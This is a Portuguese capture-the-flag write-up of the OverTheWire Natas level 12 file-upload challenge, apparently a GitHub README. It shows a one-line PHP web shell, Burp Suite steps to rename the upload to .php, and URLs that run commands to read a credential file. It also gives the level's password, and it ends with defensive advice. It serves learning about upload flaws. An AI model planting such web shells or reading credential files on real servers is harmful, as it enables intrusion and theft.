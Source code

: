 # 🕵️ Natas - Nível 12 (🇧🇷 Português)  
*Data: 03/06/2025*    
*Dificuldade: Médio*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é identificar e explorar uma vulnerabilidade de upload de arquivos que permite a manipulação de nomes de arquivos no lado do cliente, resultando em Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas13).  

---

## 🔎 Análise

- A aplicação web em `http://natas12.natas.labs.overthewire.org/` oferece uma funcionalidade de upload de imagens JPEG com um limite de tamanho de 1KB.  
- Tentativas de bypass de extensão comuns (ex: `.php.jpg`, `test.php%00.jpg` - null byte) não funcionaram, pois o servidor sempre anexa `.jpg` ao nome final, invalidando a execução como PHP.  
- A análise do código fonte da página HTML revelou um campo oculto no formulário de upload: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- Este campo oculto pré-define o nome do arquivo que será salvo no servidor, incluindo a extensão `.jpg`, antes mesmo de o usuário selecionar o arquivo para upload.  
- A vulnerabilidade reside no fato de que o nome final do arquivo é controlado por um valor pré-populado no lado do cliente (via campo `hidden`), que pode ser interceptado e manipulado.
- Nosso objetivo é alterar a extensão de `.jpg` para `.php` no campo `filename` da requisição HTTP para que o servidor salve nosso arquivo com a extensão correta.
- O payload a ser enviado será um simples shell PHP: `<?php system($_GET['cmd']); ?>`, permitindo a execução de comandos via parâmetro `cmd` na URL. 

---

## 🧱 Etapas

1. Acessar a Aplicação: Navegar até `http://natas12.natas.labs.overthewire.org/`.  
2. Testar o Upload: Tentar fazer upload de um arquivo para observar o comportamento do servidor (renomeando para `.jpg`).  
3. Analisar o Código Fonte: Inspecionar o código HTML da página de upload para identificar o campo `input type="hidden" name="filename"`.  
4. Preparar o Payload: Criar um arquivo PHP (ex: `bypass.php`) com o conteúdo `<?php system($_GET['cmd']); ?>`.  
5. Interceptar a Requisição: Utilizando a ferramenta proxy `Burp Suite` para capturar a requisição de upload do arquivo.  
6. Manipular o Nome do Arquivo: Na requisição interceptada, localizar o parâmetro `filenamee` alterar sua extensão para `.php `(ex: c36r0bea02.jpg para c36r0bea02.php).  
7. Enviar a Requisição: Enviar a requisição modificada para o servidor.
8. Verificar Upload: O servidor retornará uma mensagem confirmando o upload do arquivo com a extensão .php (ex: The file `upload/dnfplwi4tz.php` has been uploaded).
9. Acessar o Shell Web: Navegar até a URL do arquivo PHP recém-enviado (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observar as mensagens de erro ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), que confirmam que o PHP está interpretando o arquivo.
10. Executar Comandos: Testar a execução de comandos adicionando o parâmetro cmd na URL (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirmar o RCE.
11. Obter a Senha: Executar o comando para ler o arquivo de senha do Natas13: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.  

---

## 🔑 Senha Encontrada

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusão

A vulnerabilidade foi explorada com sucesso ao manipular o campo filename de um input hidden no formulário de upload, que era preenchido no lado do cliente. Isso permitiu o bypass da validação de extensão do servidor e o upload de um shell PHP. A execução remota de código foi confirmada e a senha para o próximo nível foi obtida. Este caso destaca o perigo de confiar em qualquer tipo de controle de entrada do lado do cliente para a segurança da aplicação, especialmente em funcionalidades de upload.

---

## 🧪 Comandos Utilizados

Conteúdo do arquivo shell.php:
PHP

<?php system($_GET['cmd']); ?>
Acesso ao shell web (após upload e manipulação do nome):  
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php`  
Verificar RCE:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=pwd`  
Obter senha do Natas13:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=cat%20/etc/natas_webpass/natas13`  

---

## 🧠 Observações

Validação Server-Side é Crucial: Nunca confie em validações feitas apenas no lado do cliente (JavaScript, campos HTML ocultos). Sempre revalide todas as entradas no lado do servidor.
Whitelist para Extensões e Tipos MIME: Em vez de blacklists, use whitelists (listas de permissão) para extensões de arquivos e tipos MIME permitidos para upload.
Renomeação Segura de Arquivos: Ao renomear arquivos, use um nome gerado aleatoriamente e uma extensão validada no servidor, sem permitir qualquer entrada do usuário no nome ou extensão final.
Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório fora da raiz web ou configurado para não permitir execução de scripts.


---

## 📎 Scripts desenvolvidos

[bypass.php](): Um shell PHP simples (`<?php system($_GET['cmd']); ?>`) utilizado para a execução remota de comandos.

---

<p align="center"> <a href="../Natas11/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas13/Readme-BR.md">Proximo ➡️</a> </p>
